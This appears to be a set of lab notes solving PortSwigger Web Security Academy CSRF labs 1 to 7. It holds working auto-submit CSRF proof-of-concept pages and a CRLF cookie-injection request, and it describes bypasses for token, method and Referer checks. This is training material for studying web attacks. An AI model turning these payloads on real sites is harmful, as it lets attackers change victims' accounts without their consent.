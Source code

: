 ## Lab - 1: CSRF vulnerability with no defenses (A)

- This lab's email change functionality is vulnerable to CSRF. To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server. You can log in to your own account using the following credentials: wiener:peter

- enter as wiener
- at CSRF vuln end-point,

```
POST /my-account/change-email HTTP/1.1
...
Cookie: session=3nunxpjn62UDgxNf0EBecuvWuJ846cEB

email=test%40test.com
```

- Right click -> Engagement tools > Generate CSRF Poc
- in CSRF PoC generator, Options > Include auto submit script checked
- change the email input value in CSRF HTML
- copy this HTML into explot server body

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      history.pushState("", "", "/");
    </script>
    <form
      action="https://0a1e000d048c5fcac0b6760e001100a9.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="test&#64;test2&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Lab - 2: CSRF where token validation depends on request method (P)

- This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You can log in to your own account using the following credentials: wiener:peter

- vuln header

```
POST /my-account/change-email HTTP/1.1
Host: 0ae60049043c36b9c0aea2ba009200a0.web-security-academy.net
Cookie: session=CCNEJxo2BpHiYUJFVchUb93P9H4Dhp4H
...

email=test%40test1.com&csrf=oep2xvr1MFEG0Ok8HinlCqb8B6WowbHZ
```

- try to change the csrf token -> 404 response with invalid CSRF token
- try to change the method `GET` without csrf and 302 found
- to solve the lab, do as previous lab

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      history.pushState("", "", "/");
    </script>
    <form
      action="https://0ae60049043c36b9c0aea2ba009200a0.web-security-academy.net/my-account/change-email"
    >
      <input type="hidden" name="email" value="test&#64;test2&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Lab - 3: CSRF where token validation depends on token being present (P)

- This lab's email change functionality is vulnerable to CSRF. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You can log in to your own account using the following credentials: wiener:peter

- Vuln header

```
POST /my-account/change-email HTTP/1.1
Host: 0a09006e04746b0dc04e086000ef0000.web-security-academy.net
Cookie: session=Pmb74EIgFYd4Kda7rtB4fh2qte7uwbhD
...

email=test%40test.com&csrf=UUo0mCzxDHh17KZpgwEeIjaMTQLp1Tsj
```

- try to remove the csrf token, and send the request and 302 found

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      history.pushState("", "", "/");
    </script>
    <form
      action="https://0a09006e04746b0dc04e086000ef0000.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="test&#64;test2&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Lab - 4: CSRF where token is not tied to user session (P)

- This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

  - wiener:peter
  - carlos:montoya

- enter with carlos account and try above steps
- enter with wiener account in private tab, get the csrf token with proxy and drop the request (it is import. token is for single use)
- replace that token with the carlos token

---

## Lab - 5: CSRF where token is tied to non-session cookie (P)

- This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You have two accounts on the application that you can use to help design your attack. The credentials are as follows: wiener:peter, carlos:montoya

> a little complicated! will do later

---

## Lab - 6: CSRF where token is duplicated in cookie (P)

- This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You can log in to your own account using the following credentials: wiener:peter

```
POST /my-account/change-email HTTP/1.1
Host: 0afe0082039e0415c08d14bc003e0000.web-security-academy.net
Cookie: session=qUqqOoUGQAbRUkorybFlGIOm5xD4fncJ; csrf=BXhFZY0oSlyYbHTYrNHvrr8yE2Q98FmW
...
email=test%40test.com&csrf=BXhFZY0oSlyYbHTYrNHvrr8yE2Q98FmW
```

- If csrf in request body parameter is same as that of cookie, whatever the values are, it is accepted.

- try to set the custom cookie and set csrf to that cookie

- perform a search, and found that the response contains `Set-Cookie: LastSearchTerm=something` and search term has no CSRF protection and use this to inject cookie into the victim browser by

```
GET /?search=game%0d%0aSet-Cookie:%20csrf=fakeCSRF HTTP/1.1
```

result

```
HTTP/1.1 200 OK
Set-Cookie: LastSearchTerm=game

Set-Cookie: csrf=fakeCSRF; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
```

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      history.pushState("", "", "/");
    </script>
    <form
      action="https://0afe0082039e0415c08d14bc003e0000.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="test&#64;test2&#46;com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    <img
      src="https://0afe0082039e0415c08d14bc003e0000.web-security-academy.net/?search=game%0d%0aSet-Cookie:%20csrf=fake"
      onerror="document.forms[0].submit();"
    />
  </body>
</html>
```

- first load the image and this will set the user browser with cookie `csrf=fake`
- then it will get error, and the form will be submit with the same `csrf=fake`

---

## Lab - 7: CSRF where Referer validation depends on header being present (P)

- This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You can log in to your own account using the following credentials: wiener:peter

- there is no csrf token present in POST request
- but when you send the CSRF PoC, it will result `invalid referrer header`
- then add META tag in PoC HTML

```
<meta name="referrer" content="never">
```

